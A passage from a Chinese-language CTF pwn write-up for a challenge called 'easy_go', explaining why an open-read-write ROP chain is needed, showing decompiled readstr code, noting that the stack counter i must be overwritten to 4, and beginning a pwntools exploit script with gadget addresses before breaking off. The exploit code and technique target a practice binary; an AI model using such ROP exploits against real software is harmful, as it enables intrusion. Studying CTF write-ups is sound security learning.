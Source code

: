 
因此这里我们只能采用orw的方式获取flag。

当然这里在进行rop chain写入的时候还需要注意一个小细节，我们再来看一下readstr的实现

```
__int64 __fastcall readstr(__int64 buf, int length)
`{`
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i &lt; length; ++i )
  `{`
    if ( read(0, (void *)(i + buf), 1uLL) &lt;= 0 )
    `{`
      puts("read error");
      exit(0);
    `}`
    if ( *(_BYTE *)(i + buf) == 10 )
      break;
  `}`
  *(_BYTE *)(i + buf) = 0;
  return (unsigned int)i;
`}`
```

可以看到这里for循环中写入内容的指针值通过buf+i来进行控制的，部分是我们传入的参数，而i是存储在栈上的。而由于我们调用的特殊性，这里的readstr函数栈与我们将要覆写的栈重合，也就是在覆写的时候会将i覆写掉，因此这里在覆写的时候需要将i的值覆写为4才能够继续进行写入，当然覆写为其他的特定值跳过一定空间的写入也是可以的。

之后的rop chian 的构造不再赘述。



## EXP

完整的EXP如下

```
# -*- coding: utf-8 -*-
from pwn import *

file_path = "./easy_go"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 1
if debug:
    p = process([file_path])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('172.20.5.31', 22423)
    libc = ELF('./libc-2.31.so')
    one_gadget = 0x0

p_rdi_r = 0x00000000004017a3
p_rsi_r15_r = 0x4017a1
read = 0x4015AB
p_rbp_r = 0x40125d
p_rsp_r = 0x40179d  # 3
ret = 0x000000000040101a

bss = 0x404050

while True:
    try:
        p.sendafter("send &gt;&gt; ", "a\n")
```